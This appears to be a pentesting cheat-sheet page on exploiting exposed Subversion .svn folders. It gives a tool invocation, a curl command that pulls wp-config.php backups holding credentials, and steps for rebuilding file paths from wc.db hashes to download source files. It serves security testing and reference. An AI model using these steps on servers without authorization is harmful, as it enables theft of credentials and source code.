 # Subversion

> Subversion  (often abbreviated as SVN) is a centralized version control system (VCS) that has been widely used in the software development industry. Originally developed by CollabNet Inc. in 2000, Subversion was designed to be an improved version of CVS (Concurrent Versions System) and has since gained significant traction for its robustness and reliability. 

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [References](#references)

## Tools

* [anantshri/svn-extractor](https://github.com/anantshri/svn-extractor) - Simple script to extract all web resources by means of .SVN folder exposed over network. 
    ```powershell
    python svn-extractor.py --url "url with .svn available"
    ```

## Methodology

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```
    
2. Download interesting files
    * remove `$sha1$` prefix
    * add `.svn-base` postfix
    * use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

## References

- [SVN Extractor for Web Pentesters - Anant Shrivastava - March 26, 2013](http://blog.anantshri.info/svn-extractor-for-web-pentesters/)